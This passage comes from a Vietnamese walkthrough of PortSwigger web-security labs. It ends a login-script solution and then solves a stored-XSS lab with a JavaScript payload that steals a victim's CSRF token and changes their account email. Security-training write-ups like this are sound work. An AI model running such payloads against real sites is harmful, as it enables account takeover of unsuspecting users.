 ```python
}
response = session.post(
    url + "/login",
    data=data,
    verify=False,
)

soup = BeautifulSoup(response.text,'html.parser')
print(soup)
```

![image](https://hackmd.io/_uploads/H1NRtYuqa.png)

mục đích của chúng ta đã hoàn thành và mình cũng đã giải quyết được lab này

![image](https://hackmd.io/_uploads/S1kNqtd9T.png)

## 24. Lab: Exploiting XSS to perform CSRF

link: https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-perform-csrf

### Đề bài

![image](https://hackmd.io/_uploads/r1cDiFd5p.png)

### Phân tích

- Trang web này có chứa lỗi stored XSS ở chức năng comment, để solve lab mình cần khai thác lỗ hổng để thực hiện tấn công CSRF nhằm đổi email của người xem blog post đó
- Tương tự các bài trên, chức năng comment bị dính Stored XSS. Kiểm tra với trường comment với `<script>alert(1)</script>` thì thấy attack thành công.
- ![image](https://hackmd.io/_uploads/By_g3Y_9p.png)

- Đầu tiên, đăng nhập tài khoản có sẵn wiener:peter để xem form update email. GET đến /my-account, form update email gồm 2 trường email và csrf (sẽ được tạo sẵn sau khi load form).

![image](https://hackmd.io/_uploads/r1qunF_ca.png)

Khi thực hiện điền form và update email, sẽ có 1 POST request đến /my-account/change-email với email và csrf tương ứng.

### Khai thác

- ta thực hiện tạo payload như sau:

```javascript
<script>
var request = new XMLHttpRequest();
request.onload = csrfEmail;
request.open('get','/my-account',true);
request.send();
function csrfEmail() {
    var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('POST', '/my-account/change-email', true);
    changeReq.send('email=cuong@gmail.com&csrf='+token)
};
</script>
```
